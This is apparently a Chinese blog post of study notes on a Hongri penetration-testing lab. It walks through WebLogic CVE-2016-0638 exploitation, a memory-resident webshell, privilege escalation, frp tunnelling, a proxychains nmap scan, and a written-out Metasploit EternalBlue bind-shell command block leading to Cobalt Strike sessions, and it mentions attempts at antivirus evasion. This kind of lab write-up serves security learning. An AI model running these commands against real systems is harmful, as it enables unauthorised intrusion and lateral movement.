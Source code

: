 ```yaml
---
title: 红日靶场二-学习笔记
date: 2023-06-24 21:11 +0800
categories: [SRC,渗透]
tags: [红日,渗透]
media_subpath: /assets
---
```






https://pan.baidu.com/s/1DtOdje33JeoF8kcU6LBqSw?pwd=g5r4

![](WEBRESOURCEcac433cc9d9d4bddbcf1dc770267536b.png)

dc 区段1

pc 区段2 区段1

web nat 区段1



## 外网

![](WEBRESOURCEab16919d3ad044c3b1f3377abe7eef3c.png)



ms17010 是打不通的

![](WEBRESOURCE358953f4253349c9aeb086fd11ae2ffa.png)

有服务要手动起来，，，，

mssql 1qaz@WSX

登录启动 weblogic

![](WEBRESOURCE652d91cd4b6e46b5978bed38fee1670d.png)

疑似存在漏洞

![](WEBRESOURCEc2fb0a9031a2477683e9590c17f6ec10.png)

存在cve20160638

![](WEBRESOURCEfd9e7167662b4f27a4a8032159c0a6ec.png)

直接注入内存马

![](WEBRESOURCEebdb94b4e829406cbcca711a4b5ebead.png)



使用哥斯拉连接成功

![](WEBRESOURCE051aabdc15dd4165ae22e8bc2ed8ed84.png)

我们现在是低权

![](WEBRESOURCE313218577e034433909833ec526c0ea4.png)



靶机里面有360，但是cs直接生成的检测不出来。（搞了半天免杀还失败了【晕】

尝试提权，获取到了 system

![](WEBRESOURCE0f0e9e2ca292428793df11667920f9b2.png)

ipconfig /displaydns

查看dns缓存

pc icmp探测是不行的，dns才能探测到

![](WEBRESOURCE9da0abf566044da3af2aefe625131d6f.png)

上传运行 frp（过程略）

![](WEBRESOURCEedae8e64595647ee9ef8ec1ceae7ede4.png)

端口扫描 可以用插件或者

proxychains nmap -A -F -sT -Pn 10.10.10.10

![](WEBRESOURCE5ea6485890b04af0a0980b3880088993.png)



## 第二层上线cs

17010打进去用frp代理

```
set Proxies socks5:127.0.0.1:60000
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhost 10.10.10.10
set lport 4444
run
```

![](WEBRESOURCE311e72c64e7c4f0b8236de96b98c24f2.png)

现在跳板机上面监听端口，



![](WEBRESOURCEaa3c6064986d4247ad7066945431eff3.png)

配置一个端口就可以，

![](WEBRESOURCE72138e1fb4dc41d59c92e88137d3d275.png)

生成shell，监听跳板机监听的端口，cs会自动转发流量

![](WEBRESOURCEaa01799f717b4c398e19d2b535336349.png)

通过上面msf 获取的system，我们直接木马即可

![](WEBRESOURCE6e22de1f752f4f358eeecba4a5bcbbb0.png)

cs 会同步 上线

![](WEBRESOURCE173106f5c4e04729b918e98ae8aa75b4.png)



![](WEBRESOURCEa64157a3097b4d56ba9a61bf44412260.png)

